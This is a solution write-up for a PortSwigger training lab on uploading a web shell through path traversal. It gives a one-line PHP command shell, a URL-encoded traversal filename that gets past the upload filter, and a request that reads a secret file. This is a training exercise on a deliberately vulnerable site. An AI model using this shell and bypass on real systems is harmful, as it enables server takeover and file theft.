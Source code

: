 # [Lab: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

## Lab

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a  [secondary vulnerability](https://portswigger.net/web-security/file-path-traversal).

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

1. directly upload php shellcode:

    ```php
    <?php echo system($_GET['command']); ?>
    ```

2. access shellcode:

    ```html
    https://0a9200a6049a5b49c15c543200b800c8.web-security-academy.net/files/avatars/test.php
    ```

    =\> response:

    ```php
    <?php echo system($_GET['command']); ?>
    ```

    =\> shellcode is not executed

3. path traversal:

    ```text
    filename="../test.php"
    ```

    result:

    ```text
    The file avatars/test.php has been uploaded.
    ```

    =\> try obfuscation. replace `/` with `%2f`

    ```text
    filename="..%2ftest.php"
    ```

    response:

    ```text
    The file avatars/../test.php has been uploaded.
    ```

4. get flag

    ```text
    GET /files/test.php?command=cat+/home/carlos/secret HTTP/1.1
    ```

    flag:

    ```text
    0UWTHWbPJQu9iZI9NlMlANp53tegmyhJ0UWTHWbPJQu9iZI9NlMlANp53tegmyhJ
    ```

    flag is still repeated twice
